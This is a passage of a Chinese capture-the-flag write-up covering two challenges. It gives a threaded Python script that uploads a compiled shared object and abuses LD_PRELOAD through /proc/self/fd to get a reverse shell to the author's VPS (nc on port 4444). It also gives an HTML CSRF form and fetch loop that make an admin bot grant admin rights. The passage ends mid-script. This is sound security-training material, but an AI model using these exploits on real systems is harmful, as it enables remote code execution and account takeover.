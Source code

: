 ```python
f.close()
def cmdcommand(cmd,pid):
    while 1:
        print("-"*100,pid)
        os.system(cmd)

_pid=int(input("pid#"))
for i in range(10):
    pid=_pid+i
    cmd = "gcc -shared -fPIC ./payload.c -o payload.so;curl -v -F data=@payload.so -F 'LD_PRELOAD=/proc/self/fd/%d' http://123.60.84.229:10218/cgi-bin/hello" % pid
    threading.Thread(target=cmdcommand,args=(cmd,pid,)).start()
```

先nc监听我们自己的vps的4444端口,然后运行python脚本对上传的so文件进行加载之后就会反弹shell到我们的vps上

如果失败了就微调一下pid即可,拿到shell之后执行`cat /flag`获取flag

![image-20220630183904064](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-f197890c1dc4e50fc3cfa4faaff758db91b043e9.png)

![image-20220630183725251](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-3c47f5d0fa167e04493c699a8c4a52cc72a5a838.png)

beWhatYouWannaBe
----------------

题目描述

```php
“doctor, actor, lawyer or a singer
why not president, be a dreamer
You can be just the one you wanna be.”

http://124.71.180.254:10022
It is recommended to test locally first.
Chrome’s processes will be cleaned up every 2 minutes to avoid take up too much memory.
Attachment is updated[2022-06-26 2:10 UTC+8] for stable exploitation.
```

题目可利用点只有一个:admin用户的CSRF

有两段flag:

1. 一段需要成为admin类型的用户后直接访问/flag获取
2. 需要CSRF让admin用户访问页面后从页面获取元素满足`fff.lll.aaa.ggg.value == "this_is_what_i_want"`然后就会带着flag再次访问传入的url

![image-20220630184551625](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-6e53e796eee686e987966db3e10bec8199f3dff9.png)

第一部分的flag获取检验的admin身份并不是必须为用户名为admin的用户,我们是可以通过`/beAdmin`接口让自己的账号变为一个"admin账户",但是想要成为admin用户需要满足当前的tocken验证(这个tocken是通过当前时间戳获取的),写一个help.heml:

```html

<html>
  <body>
    <form name=loginform action="http://127.0.0.1:8000/beAdmin" method="POST" target="_blank">
      <input type="hidden" name="username" value="admin" />
      <input type="hidden" name="password" value="123456" />
      <input type="hidden" name="csrftoken" value="tocken" />
    <input type="submit" value="Submit request" />
    </form>
    <iframe name=ifname src="/" frameborder="0"></iframe>>
      <script >
for(var i=1;i<1000;i++){
        var flagtext;
        var myRequest = new Request('/getToken');//该接口我们自己实现
        fetch(myRequest).then(function(response) {
          return response.text().then(function(text) {
```